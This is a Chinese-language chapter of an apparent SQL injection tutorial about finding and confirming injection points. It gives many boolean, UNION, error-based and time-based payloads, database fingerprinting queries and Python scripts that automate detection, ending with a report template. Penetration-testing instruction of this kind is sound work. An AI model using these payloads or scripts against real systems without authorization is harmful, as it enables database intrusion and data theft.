

# 第二章：注入点探测与确认

## 2.1 注入点识别方法

### 参数位置分析

#### GET请求参数
```http
GET /?id=homePage&category=books&page=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0...
Accept: text/html,application/xhtml+xml
Cookie: session=abc123; user_id=456
X-Forwarded-For: 192.168.1.1
```

**注入点位置**：
- URL参数：`id=homePage`、`category=books`、`page=1`
- Cookie值：`session=abc123`、`user_id=456`
- HTTP头部：`X-Forwarded-For: 192.168.1.1`

#### POST表单数据
```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

username=harold&password=123456&remember=1
```

**注入点位置**：
- 表单字段：`username=harold`、`password=123456`、`remember=1`

#### POST JSON数据
```http
POST /api/user HTTP/1.1
Host: example.com
Content-Type: application/json
Content-Length: 56

{
  "username": "harold",
  "email": "harold@example.com",
  "age": 25
}
```

**注入点位置**：
- JSON值：`"harold"`、`"harold@example.com"`、`25`

#### POST XML数据
```http
POST /api/data HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 79

<root>
  <username>harold</username>
  <email>harold@example.com</email>
  <id>123</id>
</root>
```

**注入点位置**：
- XML元素值：`harold`、`harold@example.com`、`123`

### 全面参数枚举

```markdown
## 所有可能的注入点位置

### HTTP请求行
- URL路径: `/users/123/profile`
- URL参数: `?id=1&search=test`
- HTTP方法: GET/POST/PUT/DELETE

### HTTP头部
- Cookie: `sessionid=abc123`
- User-Agent: `Mozilla/5.0...`
- Referer: `http://previous.com`
- X-Forwarded-For: `192.168.1.1`
- Host: `example.com`
- 自定义头部: `X-API-Key: secret123`

### 请求体
- 表单数据: `username=admin`
- JSON数据: `{"user":"admin"}`
- XML数据: `<user>admin</user>`
- 文件上传: 文件名、文件内容
- Multipart数据: 各个部分的值
```

## 2.2 检测注入技术

### 基础检测方法

#### 单引号检测法
```sql
-- 基础单引号测试
'
"
`
')
")
`)
' -- 
" -- 
```

#### 逻辑测试法
```sql
-- True条件测试
id=1 OR 1=1 -- 
id=1' OR '1'='1 -- 
id=1" OR "1"="1 -- 

-- False条件测试  
id=1 AND 1=2 -- 
id=1' AND '1'='2 -- 
id=1" AND "1"="2 -- 
```

#### 算术测试法
```sql
-- 有效算术运算
id=1/1 -- true (正常返回)
id=1/0 -- false (可能报错或异常)

-- 其他算术运算
id=2-1  -- 应该返回id=1的结果
id=1+0  -- 应该返回id=1的结果
```

### 基于响应的检测

#### 错误信息检测
```sql
-- 触发语法错误
id=1' 
id=1" 
id=1) 
id=1' AND (SELECT * FROM users) -- 

-- 观察错误信息特征：
-- MySQL: You have an error in your SQL syntax
-- PostgreSQL: ERROR: syntax error at or near
-- SQL Server: Incorrect syntax near
-- Oracle: ORA-00933: SQL command not properly ended
```

#### 布尔逻辑检测
```sql
-- 基于内容的布尔检测
id=1 AND 1=1 -- (正常内容)
id=1 AND 1=2 -- (内容缺失或变化)

-- 基于HTTP状态的布尔检测
id=1' AND '1'='1 -- (HTTP 200)
id=1' AND '1'='2 -- (HTTP 500 或 404)
```

#### 时间盲注检测
```sql
-- MySQL时间检测
id=1' AND SLEEP(5) -- 
id=1' AND IF(1=1,SLEEP(5),0) -- 
id=1' AND BENCHMARK(1000000,MD5('test')) -- 

-- PostgreSQL时间检测
id=1' AND PG_SLEEP(5) -- 

-- SQL Server时间检测
id=1'; WAITFOR DELAY '0:0:5' -- 

-- Oracle时间检测
id=1' AND DBMS_LOCK.SLEEP(5) -- 
```

### 高级检测技巧

#### 联合查询检测
```sql
-- 确定列数
id=1 ORDER BY 1 -- 
id=1 ORDER BY 2 -- 
id=1 ORDER BY 3 -- 
...直到报错

-- 联合查询测试
id=1 UNION SELECT 1 -- 
id=1 UNION SELECT 1,2 -- 
id=1 UNION SELECT 1,2,3 -- 
```

#### 堆叠查询检测
```sql
-- MySQL堆叠查询（需要特定配置）
id=1'; SELECT 1 -- 

-- SQL Server堆叠查询
id=1'; SELECT 1 -- 

-- PostgreSQL堆叠查询  
id=1'; SELECT 1 -- 
```

#### 报错注入检测
```sql
-- MySQL报错检测
id=1' AND updatexml(1,concat(0x7e,(SELECT user())),1) -- 
id=1' AND extractvalue(1,concat(0x7e,(SELECT user()))) -- 

-- SQL Server报错检测
id=1' AND 1=CONVERT(int,(SELECT user())) -- 

-- PostgreSQL报错检测
id=1' AND CAST((SELECT version()) AS INTEGER) -- 
```

## 2.3 盲注特征识别

### 布尔盲注识别

#### 响应差异分析
```sql
-- 基于内容差异
id=1' AND (SELECT SUBSTRING(database(),1,1))='a' -- 
id=1' AND (SELECT SUBSTRING(database(),1,1))='b' -- 

-- 基于HTTP状态码
id=1' AND (SELECT COUNT(*) FROM users)=10 -- (状态200)
id=1' AND (SELECT COUNT(*) FROM users)=11 -- (状态500)
```

#### 自动化布尔检测
```python
import requests

def detect_boolean_injection(url, param, true_condition, false_condition):
    """
    检测布尔盲注
    """
    # 真条件请求
    true_payload = f"{param}={true_condition}"
    true_response = requests.get(f"{url}?{true_payload}")
    
    # 假条件请求  
    false_payload = f"{param}={false_condition}"
    false_response = requests.get(f"{url}?{false_payload}")
    
    # 比较响应差异
    if (true_response.status_code != false_response.status_code or
        true_response.content != false_response.content):
        return True
    return False

# 使用示例
url = "http://example.com/products"
param = "id"
true_condition = "1' AND '1'='1' -- "
false_condition = "1' AND '1'='2' -- "

if detect_boolean_injection(url, param, true_condition, false_condition):
    print("布尔盲注检测成功!")
```

### 时间盲注识别

#### 时间延迟检测
```sql
-- 基础时间检测
id=1' AND SLEEP(5) -- 

-- 条件时间检测
id=1' AND IF((SELECT user())='root@localhost',SLEEP(5),0) -- 

-- 多数据库时间函数
-- MySQL: SLEEP(), BENCHMARK()
-- PostgreSQL: PG_SLEEP() 
-- SQL Server: WAITFOR DELAY
-- Oracle: DBMS_LOCK.SLEEP()
```

#### 自动化时间检测
```python
import requests
import time

def detect_time_based_injection(url, param, delay_payload, normal_payload, threshold=3):
    """
    检测时间盲注
    """
    # 正常请求时间基准
    start_time = time.time()
    requests.get(f"{url}?{param}={normal_payload}")
    normal_time = time.time() - start_time
    
    # 延迟请求时间
    start_time = time.time()
    requests.get(f"{url}?{param}={delay_payload}")
    delay_time = time.time() - start_time
    
    # 判断是否显著延迟
    if delay_time - normal_time > threshold:
        return True
    return False

# 使用示例
url = "http://example.com/search"
param = "q"
delay_payload = "test' AND SLEEP(5) -- "
normal_payload = "test"

if detect_time_based_injection(url, param, delay_payload, normal_payload):
    print("时间盲注检测成功!")
```

## 2.4 数据库指纹识别

### 基于错误信息的识别

```sql
-- 触发错误并分析
id=1' 

-- 错误信息特征：
-- MySQL: "You have an error in your SQL syntax"
-- PostgreSQL: "ERROR: syntax error at or near"
-- SQL Server: "Incorrect syntax near"  
-- Oracle: "ORA-00933: SQL command not properly ended"
-- SQLite: "SQLite error near"
```

### 基于特有函数的识别

```sql
-- 版本函数识别
id=1' AND @@version IS NOT NULL -- (MySQL/SQL Server)
id=1' AND version() IS NOT NULL -- (PostgreSQL)
id=1' AND (SELECT banner FROM v$version) IS NOT NULL -- (Oracle)

-- 延时函数识别
id=1' AND SLEEP(1) -- (MySQL)
id=1' AND PG_SLEEP(1) -- (PostgreSQL) 
id=1'; WAITFOR DELAY '0:0:1' -- (SQL Server)
id=1' AND DBMS_LOCK.SLEEP(1) -- (Oracle)

-- 字符串连接识别
id=1' UNION SELECT 'a' 'b' -- (MySQL)
id=1' UNION SELECT 'a'||'b' -- (PostgreSQL/Oracle)
id=1' UNION SELECT 'a'+'b' -- (SQL Server)
```

### 基于系统表的识别

```sql
-- 系统表存在性检测
id=1' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 -- (MySQL)
id=1' AND (SELECT COUNT(*) FROM pg_catalog.pg_tables) > 0 -- (PostgreSQL)
id=1' AND (SELECT COUNT(*) FROM sysobjects) > 0 -- (SQL Server)
id=1' AND (SELECT COUNT(*) FROM ALL_TABLES) > 0 -- (Oracle)
```

## 2.5 实战检测流程

### 完整检测工作流



### 分步检测脚本

```python
import requests
import time

class SQLInjectionDetector:
    def __init__(self, target_url):
        self.target_url = target_url
        self.results = {}
    
    def test_basic_injection(self, param, value):
        """基础注入测试"""
        test_payloads = [
            f"{value}'",
            f"{value}\"",
            f"{value}' -- ",
            f"{value}' AND '1'='1",
            f"{value}' AND '1'='2"
        ]
        
        for payload in test_payloads:
            response = self._send_request(param, payload)
            if self._analyze_response(response, payload):
                return True
        return False
    
    def test_time_based(self, param, value):
        """时间盲注测试"""
        time_payloads = {
            'MySQL': f"{value}' AND SLEEP(5) -- ",
            'PostgreSQL': f"{value}' AND PG_SLEEP(5) -- ",
            'SQL Server': f"{value}'; WAITFOR DELAY '0:0:5' -- ",
            'Oracle': f"{value}' AND DBMS_LOCK.SLEEP(5) -- "
        }
        
        for db_type, payload in time_payloads.items():
            if self._check_time_delay(param, payload):
                return db_type
        return None
    
    def _send_request(self, param, payload):
        """发送HTTP请求"""
        try:
            return requests.get(f"{self.target_url}?{param}={payload}", timeout=10)
        except:
            return None
    
    def _analyze_response(self, response, payload):
        """分析HTTP响应"""
        if not response:
            return False
        
        # 检查错误信息
        error_keywords = ['error', 'exception', 'warning', 'mysql', 'postgresql', 'ora-']
        if any(keyword in response.text.lower() for keyword in error_keywords):
            return True
        
        # 检查状态码
        if response.status_code >= 500:
            return True
            
        return False
    
    def _check_time_delay(self, param, payload, threshold=4):
        """检查时间延迟"""
        start_time = time.time()
        self._send_request(param, payload)
        response_time = time.time() - start_time
        
        return response_time > threshold

# 使用示例
detector = SQLInjectionDetector("http://example.com/products")
if detector.test_basic_injection("id", "1"):
    print("发现基础SQL注入!")
    
db_type = detector.test_time_based("id", "1")  
if db_type:
    print(f"发现{db_type}时间盲注!")
```

### 检测报告模板

```markdown
# SQL注入检测报告

## 目标信息
- URL: http://example.com/products
- 测试时间: 2024-01-20

## 发现的注入点

### 1. GET参数注入
- 参数: `id`
- 类型: 字符型注入
- 验证方法: 错误信息 + 布尔逻辑
- 风险等级: 高危

### 2. POST参数注入  
- 参数: `username` (登录表单)
- 类型: 布尔盲注
- 验证方法: 响应差异分析
- 风险等级: 中危

## 数据库信息
- 类型: MySQL
- 版本: 8.0+
- 识别方法: 错误信息 + 特有函数

## 建议
1. 立即修复发现的注入点
2. 实施参数化查询
3. 加强输入验证
4. 进行全面的安全测试
```

## 总结

通过系统化的探测和确认流程，可以有效地识别SQL注入漏洞。关键是要：

1. **全面枚举**所有可能的注入点
2. **多种方法**结合使用（错误、布尔、时间）
3. **准确识别**数据库类型
4. **详细记录**检测过程和结果

这种系统化的方法确保了检测的全面性和准确性，为后续的利用和修复提供了坚实的基础。

---

**下一章**: [第三章：参数类型与闭合方式](03-参数类型与闭合方式.md)

> 注意：所有测试应在授权环境中进行，遵守相关法律法规。